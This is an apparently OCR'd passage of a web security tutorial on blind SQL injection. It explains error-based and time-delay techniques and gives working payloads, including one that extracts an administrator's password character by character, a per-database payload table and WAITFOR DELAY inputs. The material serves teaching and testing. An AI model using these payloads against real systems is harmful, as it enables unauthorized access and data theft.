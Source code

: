 **Blind SQLi by triggering SQL Errors**

From above application show a `Welcome Back!` message if the query works fine otherwise they didn't show that and because of that, we breach data. But sometimes the application doesn't show that behavior in SQL injection so, in that case, we can trigger sql error with some condition if the condition is met our query gets an error that shows the valid character if not then that character is not valid.

Let's see how its works in action.

```mysql
`xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a`
`xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`
```

These inputs use the `CASE` keyword to test a condition and return a different expression depending on whether the expression is true. With the first input, the `CASE` expression evaluates to `'a'`, which does not cause any error. With the second input, it evaluates to `1/0`, which causes a divide-by-zero error. Assuming the error causes some difference in the application's HTTP response, we can use this difference to infer whether the injected condition is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

```mysql
`xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`
```

> **Note:** There are various ways of triggering conditional errors, and different techniques work best on different database types so you should know which DBMS you are attacking.

| Database Name | Payload |
| --- | --- |
| Oracle | ``SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`` |
| Microsoft | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` |
| PoatgreSQL | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN CAST(1/0 AS INTEGER) ELSE NULL END)` |
| MySQL | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

**Blind SQLi by Triggering Time Delays**

In some conditions, the Application doesn't show any difference in response nor show any server error caused by database query error but they execute our query in the backend so we can also exfiltrate data by adding time delays in response. The application is synced with Databases so delaying in DB response causes the application to hang up state until the database shows any response this method works fine in that case.

```mysql
`'; IF (1=2) WAITFOR DELAY '0:0:10'--`
`'; IF (1=1) WAITFOR DELAY '0:0:10'--`
```

The first of these inputs will not trigger a delay, because the condition `1=2` is false. The second input will trigger a delay of 10 seconds because the condition `1=1` is true.
